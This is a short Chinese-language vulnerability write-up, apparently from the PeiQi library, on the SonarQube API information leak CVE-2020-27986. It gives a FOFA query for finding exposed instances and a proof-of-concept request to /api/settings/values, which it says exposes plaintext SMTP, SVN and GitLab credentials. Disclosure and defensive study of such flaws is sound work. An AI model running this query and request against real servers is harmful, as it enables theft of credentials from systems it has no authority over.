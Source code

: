 ```yaml
---
title: SonarQube api 信息泄露漏洞 CVE-2020-27986
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - SonarQube
---
```


# SonarQube api 信息泄露漏洞 CVE-2020-27986

## 漏洞描述

SonarQube 某接口存在信息泄露漏洞，可以获取部分敏感信息

## 漏洞影响

> [!NOTE]
>
> SonarQube

## FOFA

> [!NOTE]
>
> app="sonarQube-代码管理"

## 漏洞复现

主页如下

![image-20210627221618861](/img/20210924020215531774.png)

漏洞POC

```
http://xxx.xxx.xxx.xxx/api/settings/values
```

![image-20210627221628431](/img/20210924020217379566.png)

可泄露的为：明文SMTP、SVN和Gitlab等敏感信息

![image-20210627221640310](/img/20210924020217678545.png)

## Goby & POC

> [!NOTE]
>
> SonarQube api Information leakage

![image-20210627221650998](/img/20210924020218084889.png)

